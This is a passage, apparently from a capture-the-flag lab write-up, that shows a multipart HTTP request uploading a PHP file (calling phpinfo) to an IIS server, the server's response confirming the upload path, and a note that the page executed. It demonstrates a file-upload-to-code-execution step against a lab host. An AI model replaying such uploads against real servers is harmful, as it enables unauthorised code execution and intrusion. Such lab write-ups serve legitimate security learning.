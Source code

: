 ```
-----------------------------2443440621055325101533182484
Content-Disposition: form-data; name="fileToUpload"; filename="Calicoinfo.php"
Content-Type: application/x-php

<?php


// Show all information, defaults to INFO_ALL
phpinfo();

// Show just the module information.
// phpinfo(8) yields identical results.
phpinfo(INFO_MODULES);


?>
-----------------------------2443440621055325101533182484
Content-Disposition: form-data; name="submit"



Upload Sample
-----------------------------2443440621055325101533182484--
```

The server would then return the following valid request. In the response we could see that our file was uploaded to the directory uploads

```
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: http://internal.analysis.htb/dashboard/form.php
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/8.2.5
Date: Tue, 23 Jan 2024 19:51:41 GMT
Connection: close
Content-Length: 22

uploads/Calicoinfo.php
```

Next i browsed to this location on the webserver here we could see it properly rendered our php info page
